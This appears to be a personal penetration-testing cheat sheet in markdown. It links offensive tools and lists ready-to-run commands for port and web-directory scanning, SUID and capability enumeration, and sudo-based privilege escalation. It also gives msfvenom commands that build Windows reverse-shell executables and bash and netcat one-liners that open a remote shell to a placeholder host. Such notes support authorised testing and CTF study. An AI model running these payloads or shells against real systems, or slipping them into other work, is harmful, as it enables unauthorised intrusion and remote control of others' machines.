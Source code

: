 [GTFOBins](https://gtfobins.github.io/), [LinSmartEnum](https://github.com/diego-treitos/linux-smart-enumeration), [LinEnum](https://github.com/rebootuser/LinEnum), [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), [LinuxExploitSuggester](https://github.com/mzet-/linux-exploit-suggester), [suider](https://github.com/etc5had0w/suider)

[Sherlock](https://github.com/rasta-mouse/Sherlock), [impacket](https://github.com/SecureAuthCorp/impacket), [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec), [Evil-WinRM](https://github.com/Hackplayers/evil-winrm)

----
## scan ports
```bash
# nmap scan allports, service/version info, script scan
nmap -T4 -sC -sV -p- --min-rate=1000 -oN <FILE> <IP> -Pn

# udp scan top 1000 ports
nmap -sU -sC -sV -vvv <IP> -oN nmap/udp-ports

# scan a port for vuln scripts
nmap -p <PORT> -script vuln <IP>

# masscan all tcp ports
massscan -p1-65535 <IP>
```

## scan local network
```bash
nmap -sn 192.168.1.0/24
arp-scan 192.168.1.0/24
```

## find files
```bash
find / -iname <file>.txt 2>/dev/null # linux
dir <file>.txt /S /B # windows cmd
where /r C:\ <file>.txt
Get-ChildItem -Path C:\ -Filter <file>.txt -Recurse -ErrorAction SilentlyContinue -Force # windows powershell
```

## file/directory scan

```bash
gobuster dir -u <IP> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html --timeout 50s -t 170 -f -o gobsuter

# gobsuter scan php files
gobuster dir -u <IP> -w /SecLists/Discovery/Web-Content/raft-medium-words.txt -t 30 -x php

# gobuster scan directory
gobuster dir -u <IP> -w ~/usr/share/wordlists/dirb/big.txt -t 30
gobuster dir -u <IP> -w ~/SecLists/Discovery/Web-Content/raft-medium-words.txt -t 30
gobuster dir -u <IP> -w ~/SecLists/Discovery/Web-Content/raft-medium-directories.txt --timeout 7s -t 50 -f

# dirsearch
dirsearch -u <IP> -w <wordlist>

# ffuf 
ffuf -u <IP>/FUZZ -w <wordlist>
```

----
## potential priv-esc
```bash
# list allowed sudo commands
sudo -l

# list files capabilities
getcap -r / 2>/dev/null

# find suid / sgid files
find / -type f -perm -4001 -exec ls -h {} \; 2> /dev/null
find / -type f -perm -4000 -exec ls -l {} \; 2> /dev/null
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls  -l {} \; 2> /dev/null
```

## windows msfvenom payloads
```bash
# windows reverse shell
msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o payload.exe

# windows reverse shell uses exploit/multi/handler as listener
msfvenom -p windows/shell/reverse_tcp --platform=win --arch=x86 LHOST=<IP> LPORT=<PORT> -f exe -o payload.exe
```

## pentesting smb
```bash
https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb

smbmap -H <IP> -u "user -p "pass # give wrong creds
smbclient //<IP>/share

# mount a shared folder
mount -t cifs //x.x.x.x/share /mnt/share
```

## reverse shell
```bash
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1

/bin/bash -c '/bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'

nc -e /bin/bash <IP> <PORT>
```
## services
```bash
SNMP
snmp-check <IP>
snmpwalk -v1 -c public <IP> 
```

## etc
```bash
# ssh with public_key
ssh <user>@<server> -i ~/.ssh/id_rsa

# tty shell
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + z
stty raw -echo
fg
enter

# check shared objects 
strace <file> 2>&1

# if sudo su not allowed
sudo -s
sudo -i
sudo /bin/bash
sudo password

# metasploit migrate to diff process
migrate <process_id>
```
